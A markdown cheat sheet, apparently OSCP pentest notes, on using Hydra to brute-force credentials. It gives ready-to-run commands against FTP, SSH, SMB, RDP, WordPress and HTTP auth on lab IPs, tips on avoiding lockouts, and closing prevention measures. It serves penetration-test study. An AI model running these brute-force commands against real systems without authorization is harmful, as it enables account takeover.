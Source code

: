 # Hydra - Fast Password Cracking

Hydra is a powerful password cracking tool that can perform brute force attacks against numerous protocols. It's often used for credential brute forcing during penetration tests and is particularly useful during the OSCP exam.

## Basic Usage

```bash
hydra -l <username> -P <wordlist> <ip> <protocol>
```

Where:
- `-l <username>`: Specifies a single username
- `-L <username_list>`: Specifies a list of usernames
- `-p <password>`: Specifies a single password
- `-P <password_list>`: Specifies a list of passwords
- `<ip>`: Target IP address
- `<protocol>`: Protocol to attack (ssh, ftp, http-post-form, etc.)

## Common Options

- `-v`: Verbose mode, displays login attempts
- `-V`: Very verbose, displays even more information
- `-t <number>`: Number of parallel connections (default: 16)
- `-f`: Stop on first valid credential pair found
- `-u`: Loop through usernames, then passwords (default is to loop through passwords, then usernames)
- `-e nsr`: Additional password checks (n=null, s=same as username, r=reversed username)

## Example Commands

### Basic Protocol Attacks

```bash
# FTP attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10

# SSH attack
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh

# SMB attack
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 10.10.10.10 smb

# RDP attack with throttling (1 thread)
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
```

### HTTP Form-Based Attacks

```bash
# WordPress login
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"

# Basic Auth
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get /admin
```

### Advanced Example - WordPress Login

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

### Multiple Usernames and Passwords

```bash
hydra -L users.txt -P passwords.txt 10.10.10.10 ssh
```

## OSCP-Specific Tips

1. **Throttling**: Always use `-t 1` or `-t 4` for services like SSH/RDP to avoid account lockouts
2. **Output Files**: Use `-o results.txt` to save results for your report
3. **Login Attempt Monitoring**: Start with `-v` to monitor progress
4. **Protocol-Specific Notes**:
   - For HTTP form attacks, identify the correct failure message
   - For SSH, ensure you don't trigger account lockouts
   - For SMB, try both with and without domain names

## Handling Specific Error Messages

For HTTP form attacks, you need to specify a failure condition. Common options:

- `F=Login failed`: Look for "Login failed" text in the response
- `F=Authentication failed`: Look for "Authentication failed" text
- `S=Location`: Success if a redirect occurs (S=success condition)

## When to Use Hydra in OSCP

- After finding valid usernames through enumeration
- When you've exhausted other methods (default credentials, password reuse)
- On services where brute forcing is practical (not protected by lockouts)
- When you've found a password policy that limits the keyspace

## Common Wordlists

- `/usr/share/wordlists/rockyou.txt`: Common passwords
- `/usr/share/seclists/Passwords/`: Various password lists in SecLists
- `/usr/share/seclists/Usernames/`: Username lists in SecLists

## Prevention Measures

1. **Account Lockout Policies**: Prevent multiple failed attempts
2. **Rate Limiting**: Slow down authentication attempts
3. **Multi-Factor Authentication**: Add additional verification layer
4. **Strong Password Policies**: Enforce complex passwords
5. **Failed Login Monitoring**: Detect brute force attempts 